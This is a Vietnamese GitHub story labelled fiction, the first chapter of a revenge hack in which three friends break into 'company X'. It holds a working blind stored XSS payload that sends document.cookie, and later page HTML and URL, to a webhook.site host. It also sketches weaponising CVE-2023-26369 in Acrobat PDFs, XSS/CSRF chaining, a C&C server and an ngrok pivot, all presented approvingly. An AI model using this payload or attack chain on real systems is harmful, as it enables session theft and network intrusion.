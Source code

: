 # Tôi đã chiếm quyền điều hành cả một hệ thống mạng của một công ty X như thế nào.

## Lưu ý mọi nội dung dưới đây chỉ là hư cấu !

Bài viết sẽ đi xây dựng các lối tấn công thực tế các con đường khai thác APT.
Các kỹ thuật lỗ hổng sẽ được in đậm để các bạn có thể research.
cre: VHAE và những giấc mơ ;D

# Chương 1: Mở bài

### Phần 1: Bi kịch bắt đầu.

Chuyện bắt đầu cách đây 1 năm khi tôi là Vũ với công việc là phân tích mã độc. Bi kịch ập đến tôi ngay sau ngày sinh nhật tôi, bố tôi và mẹ tôi đều bị mất việc ở công ty X, công ty đó đã giải thích là do thu nhỏ quy mô kinh doanh nên phải cắt bớt nhân sự. Đêm đó tôi hơi buồn và ngồi research về công ty X và thấy công ty đó vẫn đang trong quá trình phát triển và quy mô cũng lớn nhưng lại chấm dứt hợp đồng với gia đình tôi, tôi dành ra nhiều ngày để nghiên cứu thì phát hiện ra sự thật là do bố mẹ tôi đã biết điều gì đó bí ẩn ở công ty và họ đã sa thải cả hai để giữ bí mật đó. Ngày đó tôi đã thực sự khó hiểu và bắt đầu đi tìm sự thật.

### Phần 2: Bắt tay hành động.

Câu truyện bắt đầu khi tôi liên hệ lại với 2 người bạn ở trường cũ là Hoàng ( Chuyên gia bảo mật website ) và Anh ( Một blackhat ) chúng tôi bắt đầu cuộc tấn công với công ty X và đặt tên nhóm là XTAE.

X - eXploit 
T - Technology 
A - Access 
E - Ethically

st1 : Chúng tôi đã bắt đầu tìm kiếm các thông tin về công ty X bao gồm nhân viên, quản lý, tổng giám đốc, hồ sơ tài chính và các báo cáo liên quan....

st2 : Sau khi đã có thông tin base chúng tôi bắt đầu rà quét thu thập các địa chỉ ip port, web và subdomain tại nhiều nơi như Shodan...

st3 : Chúng tôi phân công nhau tìm kiếm các lỗ hổng trên các thông tin thu thập được hầu hết chỉ là các lỗi dos và client.

Đã 3 ngày trôi qua và webhook của Vũ đã trả về dữ liệu về lỗ hổng XSS của một trang web tuyển dụng của công ty X.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/044db157-83fc-4213-a7c2-a8d532b33fda)



### Phần 3: Manh mối đầu tiên.

Với dữ liệu đổ về từ XSS Hoàng đã chuẩn đoán đây là lỗ hổng blind stored xss với 

payload xss ban đầu của Vũ  : 
```
'"><img src=x onerror='window.location.replace("https://webhook.site/0634543a?data="+document.cookie)'>
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/43e2b79e-58a0-4129-9919-2752f7ffc7a7)

Với dữ liệu đồ về có lẽ ta đã thấy cookie của người dùng, chúng tôi nhanh chóng tiến hành thêm mã cookie xác thực vào trình duyệt để truy cập vào tài khoản kiểm duyệt đó nhưng không có gì xảy ra.
Tại sao ? đó là một câu nói xảy ra trong đầu 3 chúng tôi, liệu có phải các dữ liệu xác thực đã được đính `cờ httponly` ? 

Không trước đó Vũ đã kiểm tra trang web và nó xác thực người dùng qua TOKEN và không có cờ `httponly` vậy tại sao chúng tôi không truy cập được tài khoản đó qua cookie đã thu thập được.

Để làm rõ việc này Hoàng đã xây dựng lại mã khai thác xss để chúng tôi có thể thu thập được nhiều thông tin hơn ngoài việc thu thập cookie bằng document.cookie Hoàng đã thêm một vài trường vào payload cũ của Vũ

```
document.documentElement.outerHTML để thu thập toàn hộ html trang web
window.location.href để thu thập url trang web đang truy cập
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2e8c8f00-d7dd-421e-afa4-058a4665a40c)


Sau khi dữ liệu được trả về chúng tôi đã biết nguyên nhân từ url 172.50.24.21 là một ip private vậy chúng tôi đoán trang web tuyendung.congtyx.com sẽ nhận dữ liệu về một máy chủ và các nhân sự sẽ truy cập vào một webserver nội bộ qua mạng công ty hoặc vpn để duyệt hồ sơ các thành viên - Điều này thực sự thú vị vì nó sẽ làm tăng tính bảo mật của website và tránh để lộ thông tin ra bên ngoài môi trường internet cơ bản sơ đồ sẽ như sau.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/fb863d78-e281-4454-ab57-44959f0b9512)

Vậy không có quyền truy cập vào private vậy thì chúng tôi lấy thêm được dữ liệu gì từ lỗ hổng này. Kiểm tra mã html thu thập được chúng tôi biết các ứng viên sẽ nộp hồ sơ dạng pdf và nếu được duyệt hồ sơ sẽ được gửi lên cấp trên điều đặc biệt là các đường dẫn này ko preview mà sẽ tải thẳng về máy cá nhân và xem trên đó( tôi đã thử các lỗ hổng File upload vulnerabilities nhưng server chỉ cho lưu file pdf và lưu trong cdn) .Ý tưởng ban đầu của chúng tôi sẽ ghi đè mã html khi nhân sự tải xuống file pdf của tôi thay vì đó là pdf trên webserver thì đó là mội loại virut tôi cài cắm vào, tôi phân chia cho Anh thiết kế `máy chủ c&c` để quản lý các PC mà chúng tôi đã takeover.

1 ngày, 2 ngày, 1 tuần, 2 tuần vẫn chưa thấy phải hồi gì chúng tôi đã có rất nhiều câu hỏi: 

Liệu nhân sự đó không mở file pdf virut của tôi ? 

Các máy tính đã có diệt virut mới và xoá file của tôi ?

Code của tôi không hoạt động ?

Máy chủ cá nhân không cho phép tải các file khác ? 


Trong nhiều ngày chúng tôi đã osint nhiều thông tin về công ty và biết rất nhiều người dùng Adobe Acrobat tôi liền liên hệ cho Anh để tìm hiểu thêm về các lỗ hổng zeroday về một phần mềm này với một dân ngầm như Anh đã cho tôi ngay POC mới nhất về `CVE-2023-26369` tôi tiến hành xây dựng mã khai thác theo cve mà Anh cung cấp cùng lúc đó Hoàng kết hợp lỗi `XSS và CSRF` để tự tiến hành tự động xác nhận kiểm duyệt hồ sơ của tôi lên cấp trên để có thể lây lan được nhiều ngừoi hơn.


### Phần 3: Tia sáng cuối con đường:

Sau nhiều ngày chúng tôi đã thử nhiều cách và bùm có một pc kết nối đến chúng tôi và có chính là nhân viên thungoc.

Chúng tôi tiến hành xây dựng một proxy ngrok cho phép chúng tôi truy cập trang web nội bộ ngoài internet và phân công nhiệm vụ Hoàng sẽ tiến hành tìm kiếm thêm các lỗ hổng trong web nội bộ, tôi và Anh sẽ thực hiện rà soát các dải mạng private và tìm cách khai thác chúng....

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2806ebd9-f64a-4dbf-aa0e-2c873ab0b52b)


hết chương 1:
các keyword : 
- CVE-2023-26369
- XSS 
- CSRF
- Máy chủ c&c
- Ngrok proxy
- osint
- shodan
- File upload vulnerabilities
- cdn

Nếu các bạn thích về chủ đề này hay thì mình sẽ làm típ hehe ;()
